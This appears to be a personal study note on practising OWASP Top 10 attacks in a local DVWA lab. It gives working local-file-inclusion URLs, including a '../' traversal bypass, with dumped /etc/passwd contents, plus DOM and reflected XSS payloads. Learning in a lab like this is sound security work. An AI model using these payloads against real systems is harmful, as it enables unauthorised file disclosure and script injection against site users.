 Installed DVWA in local machine and started to practice all methods. [[DVWA Installation]] #owasptop10

# Broken Access Control

1. IDOR (Insecure Direct Object Reference): Reading another user's account data by id number. 
2. Local File Inclusion: When a server-side app can display non-app files resident on the server. For example: User disclosure through /etc/passwd
3. Weak Authorization: When the application fails to protect sensitive content. For example: 'securing' admin pages with a readable cookie.
4. Security Through Obscurity: Secret paths tend not to stay secret. People aren't as inventive as they think. 

### File inclusion 

1. Changing links to get secret information. #localfileinclusion
~~~link
http://10.10.78.153/vulnerabilities/fi/?page=/etc/passwd

1. When security is low

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false landscape:x:103:109::/var/lib/landscape:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash mysql:x:106:111:MySQL Server,,,:/nonexistent:/bin/false 

2. When security is high

ERROR: File not found!

3. Read source code and tried to exploit high security 

http://10.10.78.153/vulnerabilities/fi/?page=file/../../../../../../etc/passwd

oot:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false landscape:x:103:109::/var/lib/landscape:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash mysql:x:106:111:MySQL Server,,,:/nonexistent:/bin/false 

~~~
# Cryptographic Failures

1. Any misuse or lack of cryptographic security solutions.
2. Actually a little tricky to exploit. For example: HTTP/HTTPS, weak hashing
3. Password cracking comes under it. 

# XSS Injection

Abusing application functionality to create malicious JavaScript

### Dom-based 

Mutating the HTML document 

DOM-XSS
~~~Example
1 Low security
ip/vulnerabilities/xss_d/?default='></option></select> <h1>test</h1>

2 High security
ip/vulnerabilities/xss_d/?default='></option></select> <img src=x onerror="alert('XSS')"/>
~~~
### Reflected

URL parms displayed in the page. 

~~~Example
1. <script>alert('XSS')</script>
~~~
### Stored 

Saved data rendered for all viewers

# SQL Injection

# Insecure Design

# Security Misconfiguration 

# Vulnerable and Outdated Components

# Identification and Authentication Failures

# Software and Data Integrity Failures

# Security Logging and Monitoring Failures

# Server-Side Request Forgery

# Extra Practice 
